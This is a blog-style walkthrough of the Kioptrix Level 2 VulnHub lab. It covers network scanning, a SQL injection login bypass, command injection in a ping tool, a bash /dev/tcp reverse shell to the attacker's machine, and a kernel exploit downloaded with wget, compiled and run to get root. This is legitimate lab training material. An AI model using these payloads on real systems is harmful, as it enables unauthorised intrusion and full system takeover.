# Kioptrix Level 2 Walkthrough: From Login Page to Root Shell in One Fun Ride

**Author: Faceless Hunter
Date: January 02, 2026 
Machine: Kioptrix Level 2 (VulnHub)
Difficulty: Beginner 
Goal: Root flag

LInk**: [Download Here](httpsimages//download.vulnhub.com/kioptrix/Kioptrix_Level_2-update.rar)


## Executive Summary

Kioptrix Level 2 is a beginner-friendly vulnerable virtual machine (VM) designed to simulate real-world penetration testing scenarios. Released as part of the Kioptrix series on VulnHub, it emphasizes common web application vulnerabilities and kernel exploitation on an outdated Linux system (CentOS 4.5 with kernel 2.6.9-55.EL). 
 
 In this walkthrough, we achieve full root access through a chain of exploits:
 - Directory enumeration
- SQL injection for initial authentication bypass.
- Command injection to gain a reverse shell.
- Local privilege escalation via a kernel vulnerability.

This report details the methodology step-by-step, including tools, commands, and explanations. All activities were performed in a controlled lab environment using VirtualBox, with Kali Linux as the attacker machine and the target isolated on a host-only network.
**Disclaimer**: This is for educational purposes only. Unauthorized penetration testing is illegal.
  
**Description**
`` This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). 
The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully 
complete the challenges.`` 

## Environment Setup
- **Attacker Machine:** Kali Linux (2023.4) in VirtualBox.
- **Target Machine:** Kioptrix Level 2 VM (OVA import).
- **Network Configuration:** Host-only adapter (e.g., vboxnet0) to isolate traffic. Target IP discovered via `nmap` as 192.168.8.117 (yours may vary).
- **Tools Used:**
  - **Nmap:** For port scanning and service enumeration.
  - **Gobuster:** For directory brute-forcing.
  - **Burp Suite:** For intercepting and modifying HTTP requests (e.g., SQL injection testing).
  - **Netcat (nc):** For reverse shell listeners.
  - **Searchsploit:** For finding local exploits.
  - **GCC:** On the target for compiling exploits.
  - **Python:** For shell stabilization.
- **Assumptions:** The VM is running, and basic networking is confirmed (e.g., ping the target from Kali).

##  Approch 
- **Network Discovery.**
- **Scanning and Enumeration.**
- **Exploitation.**
- **Gaining root access.**

## Phase 1:  **Reconnaissance**:

The initial phase of any penetration test is information gathering, commonly referred to as reconnaissance. This stage involves collecting crucial details about the target system, such as its IP address, to better understand its structure and potential vulnerabilities.


### Network Discovery with Netdiscover
We began with network discovering  to identify terget Internet Protocol (IP) address in the network.
**Command:**
`sudo netdiscover -r 192.168.8.0/24`



## Phase 1: Scanning and Enumeration:
During this phase, I conducted network scanning and performed enumeration of the site’s directory. This step involves identifying active ports and services on the network, as well as mapping out the structure of the website to discover potential points of entry.

## Phase 2: Network Scanning with Nmap:
We began with a full network scan to identify open ports, services, operating system.
**Command:**
`nmap -T4 -p- -A -oN nmap_scan 192.168.8.117`


**Explanation:**
- `-T4`: Set timing template, T4 is faster.
- `-p-`: Scans all 65,535 TCP ports.
- `-A`: Enable OS detection, version detection, script scanning, and traceroute.
- `-oN`: Outputs results to a file for documentation.

**Key Findings:**
- Port 22/TCP: OpenSSH 3.9p1
- Port 80/TCP: Apache 2.0.52 (CentOS)
- Port 111/TCP: RPCBIND 2
- Port 443/TCP: Apache 2.0.52 (HTTPS)
- Port 631/TCP: CUPS 1.1 (printing service)

The web server on port 80 revealed a login page titled "Remote System Administration Login," hinting at a web-based admin panel.

### Directory Brute-Forcing with Gobuster
To uncover hidden directories or files, we performed directory enumeration on the web server.

**Command:**
`gobuster dir -u httpimages//192.168.8.117/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt`


**Explanation:**
- `dir`: Mode for directory brute-forcing.
- `-u`: Target URL.
- `-w`: Wordlist path (a medium-sized list for thoroughness without excessive time).
- `-t 50`: Uses 50 threads for faster scanning.
- `-x`: Checks for common file extensions.

**Findings:**
- Revealed standard paths like `/images` and `/index.php`, but nothing immediately exploitable. The login form at `/index.php` became the focus, posting parameters `uname` (username) and `psw` (password).

## Phase 3: Initial Access via SQL Injection:
The login page was vulnerable to SQL injection (SQLi), a common flaw in outdated web applications where user input is not sanitized.

### Testing for SQL Injection with Burp Suite
We used Burp Suite to intercept and modify the login request for precise testing.

1. **Setup Burp Proxy:**
   - Configured Firefox to proxy through Burp (127.0.0.1:8080).
   - Turned on Intercept in Burp's Proxy tab.

2. **Capture and Modify Request:**
   - Submitted dummy credentials (e.g., username: `admin`, password: `admin`).
   - Intercepted the POST request to `/index.php`:



3. **Send to Repeater and Inject Payload:**
- Right-clicked the request and sent it to Repeater.
- Modified the body to test SQLi:
`uname=admin' OR '1'='1'-- &psw=admin`



**Explanation of Payload:**
- `'` : Closes the string in the SQL query (e.g., `WHERE username = ''`).
- `OR '1'='1'` : A always-true condition, bypassing the username check.
- `-- ` : Comments out the rest of the query (e.g., the password clause), preventing syntax errors.

**Result:**
- The response showed the admin panel with a "Ping for Free" tool, confirming successful authentication bypass. No error messages on failures made this subtle, but response size/length differences confirmed it.


This granted access as an admin-equivalent user, exposing the ping utility at `pingit.php`.

## Phase 4: Gaining a Reverse Shell via Command Injection
The ping tool was vulnerable to command injection, allowing arbitrary OS commands.

### Confirming Command Injection
In the browser, we tested the ping form.
**Payload in Ping Field:**
`127.0.0.1; whoami`

**Explanation:**
- `127.0.0.1`: Valid input for the ping command.
- `;`: Command separator, chaining an additional command.
- `whoami`: Reveals the current user (output: `apache`).

**Result:** The output included "apache," confirming injection as the web server user.

### Establishing a Reverse Shell
We escalated to an interactive shell.
1. **Setup Listener on Kali (attacker):**
`nc -lvnp 4444`


**Explanation:**
- `-l`: Listen mode.
- `-v`: Verbose output.
- `-n`: No DNS resolution.
- `-p 4444`: Port to listen on.

2. **Inject Reverse Shell Payload in Ping Field:**
I made a few google search on reverse shell payload and came accross one from [swisskyrepo](httpsimages//swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)
`127.0.0.1; bash -i >& /dev/tcp/192.168.8.xxx/4444 0>&1`


**Explanation:**
- `bash -i`: Starts an interactive Bash shell.
- `>& /dev/tcp/...`: Redirects stdout/stderr to a TCP connection (using Bash's built-in network support).
- `0>&1`: Redirects stdin to the same connection, enabling full interactivity.
- Replace `192.168.8.xxx` with your Kali IP.

**Result:** Caught a shell on Kali as `apache`.


Stabilized it for usability:
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
Ctrl+Z to background, then:
`stty raw -echo; fg`


**Explanation of Stabilization:**
- `python ...`: Spawns a pseudo-terminal (PTY) for better shell features.
- `export TERM=xterm`: Sets terminal type for proper rendering.
- `stty ...`: Fixes input/output after backgrounding.

## Phase 5: Privilege Escalation to Root
With a low-privileged shell, we enumerated for escalation vectors.

### System Enumeration
```
uname -a
Output: Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:54:41 PDT 2007 i686 GNU/Linux
cat /etc/redhat-release
Output: CentOS release 4.5 (Final)
```
Ancient kernel = jackpot! 
Next, on kali machine I used searchploit to serch for an exploit on Linux CentOS kernel 2.6.9

Exploit 9542.c was the best option, so i downloaded it and moved it to the target system using python webserver on port 80,
`searchsploit -m 9542
python3 -m http.server 80`

On target, i downloaded the exploit using wget on /tmp directory, compiled it using gcc because it compiles the C code into an executable binary, then exploited it.
`wget httpimages//192.168.8.xxx/9542.c
gcc 9542.c -o exploit
./exploit`

**What happens?**
The exploit triggers a kernel bug, searches memory for our UID, and overwrites it to 0 equal to instant root privileges.
Result:

```
whoami
# root

cat /root/congrats.txt
# 🎉 You did it!
```

## Successful Exploitation
After successfully exploiting the identified vulnerabilities, I was able to gain access to the system and elevate my privileges to administrative level.

## Conclusion and Lessons Learned
Kioptrix Level 2 demonstrates the dangers of unpatched systems and poor input validation. We chained SQL injection (for access), command injection (for shell), and kernel exploitation (for root) in under an hour.

**Key Takeaways:**
- Always sanitize user inputs to prevent injection attacks.
- Keep kernels and software updated; this box's vulnerabilities were patched years ago.
- Use least-privilege principles (e.g., web servers shouldn't allow easy escalation).
- Practice in labs to build skills safely.

For questions or feedback, reach me on [GitHub/Medium]. Happy hacking! 

Happy hacking, stay ethical, and keep learning! 
— **Faceless Hunter**


